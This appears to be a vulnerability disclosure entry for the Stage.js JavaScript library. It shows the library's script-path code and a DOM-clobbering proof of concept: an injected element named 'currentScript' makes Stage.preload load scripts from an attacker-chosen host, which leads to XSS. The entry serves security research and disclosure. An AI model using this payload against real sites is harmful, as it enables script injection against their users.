 ## Stage.js

### Meta

+ Library: Stage.js
+ Stars: 2.4K
+ Version: v1-alpha
+ Fingerprint: `typeof Stage !== 'undefined' && typeof Stage.create === 'function'`
+ Payload: ```<img name="currentScript" src="https://xxx.xxxx.xxx">```
+ Impact: XSS
+ Status: Reported
+ CVE: N/A
+ Foundby: TheHulk

### Library

URL:
+ `https://cdn.jsdelivr.net/npm/stage-js@1.0.0-alpha.4/+esm`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.cordova.min.js `
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js`
+ `https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.min.js`

### Vulnerable Code Snippet

```javascript
  function getScriptSrc() {
    // HTML5
    if (document.currentScript) {
      return document.currentScript.src;
    }
```

```javascript
  return function(url) {
    if (/^\.\//.test(url)) {
      var src = getScriptSrc();
      var base = src.substring(0, src.lastIndexOf('/') + 1);
      url = base + url.substring(2);
      // } else if (/^\.\.\//.test(url)) {
      // url = base + url;
    }
    return url;
  };
```

## PoC

```
<image name="currentScript" src="http://localhost:8000"></image>
<script src="https://cdnjs.cloudflare.com/ajax/libs/stage.js/0.8.10/stage.web.js" integrity="sha512-rA/8kCbIrzxcXW6akXAiN6FnpM+VW2iv9Zzw4ghu5Mt7xDobt3oraMSDxDeqq4kSUkaTBVdNOy1iyEyFhmceCw==" crossorigin="anonymous" referrerpolicy="no-referrer"></script>

<script>
Stage.preload('./a.js')
</script>
```
